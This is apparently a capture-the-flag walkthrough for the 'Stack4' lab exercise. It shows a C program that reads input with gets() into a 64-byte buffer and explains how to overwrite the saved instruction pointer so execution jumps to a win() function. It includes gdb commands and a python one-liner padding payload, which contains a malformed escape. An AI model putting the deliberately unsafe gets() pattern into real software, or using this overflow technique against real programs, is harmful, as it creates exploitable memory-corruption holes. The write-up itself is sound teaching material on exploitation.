



# Stack4

## Description
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

## Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution 
On looking the source code we cannot see any variable to change value. To call the win function, we need to change the value of instruction pointer with the address of win function. We can easily get the address of win function.
 
After this we need to find where the instruction pointer `eip` is. For this we can enter any random large input and check the value of registers and match the location of eip in the buffer.
 
Then we can just add the address of the win function in this pointer just like we did in previous questions.
```bash
gdb stack4
x win
r
info registers
python -c "print(('1'*76)+\'xf4\x83\x04\x08')" | ./stack4
```
